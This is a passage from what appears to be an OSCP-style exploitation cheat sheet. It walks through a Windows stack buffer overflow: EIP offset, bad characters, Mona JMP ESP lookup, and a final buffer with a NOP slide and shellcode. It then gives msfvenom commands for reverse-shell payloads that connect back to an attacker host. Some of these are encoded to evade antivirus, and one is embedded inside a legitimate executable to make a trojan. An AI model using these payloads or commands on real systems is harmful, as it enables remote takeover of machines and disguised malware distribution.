     -   Verify exact location of EIP - [\*] Exact match at offset 2606

            buffer = "A" \* 2606 + "B" \* 4 + "C" \* 90

    -   Check for “Bad Characters” - Run multiple times 0x00 - 0xFF

    -   Use Mona to determine a module that is unprotected

    -   Bypass DEP if present by finding a Memory Location with Read and Execute access for JMP ESP

    -   Use NASM to determine the HEX code for a JMP ESP instruction

            /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

            JMP ESP  
            00000000 FFE4 jmp esp

    -   Run Mona in immunity log window to find (FFE4) XEF command

            !mona find -s "\xff\xe4" -m slmfc.dll  
            found at 0x5f4a358f - Flip around for little endian format
            buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390

	    We can use the view -> show executables modules and search for the instruction in the immunity debugger. 

    -   MSFVenom to create payload
    
            msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"

    -   Final Payload with NOP slide  
    
            buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode

    -   Create a PE Reverse Shell  
        msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444
        -f  
        exe -o shell\_reverse.exe

    -   Create a PE Reverse Shell and Encode 9 times with
        Shikata\_ga\_nai  
        msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444
        -f  
        exe -e x86/shikata\_ga\_nai -i 9 -o
        shell\_reverse\_msf\_encoded.exe

    -   Create a PE reverse shell and embed it into an existing
        executable  
        msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444 -f
        exe -e x86/shikata\_ga\_nai -i 9 -x
        /usr/share/windows-binaries/plink.exe -o
        shell\_reverse\_msf\_encoded\_embedded.exe

    -   Create a PE Reverse HTTPS shell  
        msfvenom -p windows/meterpreter/reverse\_https LHOST=$ip
        LPORT=443 -f exe -o met\_https\_reverse.exe

Shells
===================================================================================================================================
